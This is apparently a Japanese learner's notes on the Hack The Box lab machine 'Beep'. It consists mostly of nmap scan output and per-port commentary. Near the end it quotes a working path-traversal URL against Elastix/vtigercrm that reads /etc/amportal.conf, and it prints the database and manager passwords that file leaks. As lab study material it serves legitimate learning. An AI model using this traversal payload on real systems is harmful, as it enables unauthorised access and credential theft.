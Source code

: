 1.nmap

```

Nmap scan report for Bep.htb (10.10.10.7)
Host is up (0.24s latency).
Not shown: 19984 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://Bep.htb/
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: IMPLEMENTATION(Cyrus POP3 server v2) USER LOGIN-DELAY(0) RESP-CODES EXPIRE(NEVER) STLS TOP PIPELINING AUTH-RESP-CODE UIDL APOP
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            875/udp   status
|_  100024  1            878/tcp   status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: Completed BINARY UIDPLUS IDLE LISTEXT RENAME CATENATE UNSELECT URLAUTHA0001 X-NETSCAPE ID LIST-SUBSCRIBED MAILBOX-REFERRALS CONDSTORE QUOTA OK SORT=MODSEQ ATOMIC NAMESPACE IMAP4rev1 SORT MULTIAPPEND ANNOTATEMORE RIGHTS=kxte IMAP4 LITERAL+ CHILDREN THREAD=REFERENCES ACL STARTTLS THREAD=ORDEREDSUBJECT NO
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Elastix - Login page
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_ssl-date: 2022-04-22T15:35:52+00:00; 0s from scanner time.
878/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1000.22 seconds

```

```
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
```
 sshポート、IDとPWの組み合わせでブルートフォースも可能だが、せめてユーザ名は特定しておきたい


```
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://Bep.htb/
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Elastix - Login page
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_ssl-date: 2022-04-22T15:35:52+00:00; 0s from scanner time.
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix
```
　Web用ポート　Apache2.2.3を使用
　10000ポートには見慣れないMiniservというものがある　Webmin？
  Elastix：
　>Elastixは、AsteriskベースのPBXに使いやすいインターフェースを付加するためにベストなツール群を統合化したアプライアンスソフトウェアです。また、オープンソースのテレフォニーのためのベストなソフトウェアパッケージとするために、独自のユーティリティの設定も追加されています。
　引用元：https://ja.osdn.net/projects/sfnet_elastix/
  
  --->LFIの脆弱性情報あり
  
  参考：php/webapps/37637.pl
  
  Webmin：
  >WebminはWebベースのUnix用システム管理ツールです
  引用元：https://www.lac.co.jp/lacwatch/alert/20050920_000090.html
  　デフォルトのID/PWの組み合わせはなさそう
 
 　
```
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: IMPLEMENTATION(Cyrus POP3 server v2) USER LOGIN-DELAY(0) RESP-CODES EXPIRE(NEVER) STLS TOP PIPELINING AUTH-RESP-CODE UIDL APOP
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: Completed BINARY UIDPLUS IDLE LISTEXT RENAME CATENATE UNSELECT URLAUTHA0001 X-NETSCAPE ID LIST-SUBSCRIBED MAILBOX-REFERRALS CONDSTORE QUOTA OK SORT=MODSEQ ATOMIC NAMESPACE IMAP4rev1 SORT MULTIAPPEND ANNOTATEMORE RIGHTS=kxte IMAP4 LITERAL+ CHILDREN THREAD=REFERENCES ACL STARTTLS THREAD=ORDEREDSUBJECT NO
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
``` 
　nmptポート　snmtp-commandsというものを発行している
　要調査
　pop3ポート　Cyrus
　参考：https://atmarkit.itmedia.co.jp/ait/articles/0203/30/news001.html
　参考：http://linux.kororo.jp/cont/server/smtp_auth.php（PostFixとSMTPの関係）
 

```
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            875/udp   status
|_  100024  1            878/tcp   status
```
　rcpbindポート
　参考：https://www.mtioutput.com/entry/2019/01/24/090000

```
878/tcp   open  status     1 (RPC #100024)
```
??

```
3306/tcp  open  mysql      MySQL (unauthorized)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
```
 SQL
 
4445/tcp  open  upnotifyp?

```
4559/tcp  open  hylafax    HylaFAX 4.3.10
```

＞HylaFAX はファクシミリを送受信したり英数字のページを送信するためのエンタープライズクラスのシステムです。
参考：https://wiki.archlinux.jp/index.php/Hylafax

```
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
```

＞Asterisk(アスタリスク)は、オープンソースのIP-PBXソフトウェアです
参考：https://www.ossnews.jp/oss_info/asterisk



-------------------------------------------------
一部WriteUpを確認-------------------------https://qiita.com/wacker22/items/21d68f183641ca35186f

LFIにてconfigデータを取得
view-source:https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
???なぜこのファイルを取得したか

クレデンシャル情報は以下
AMPDBHOST=localhost
AMPDBENGINE=mysql
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE




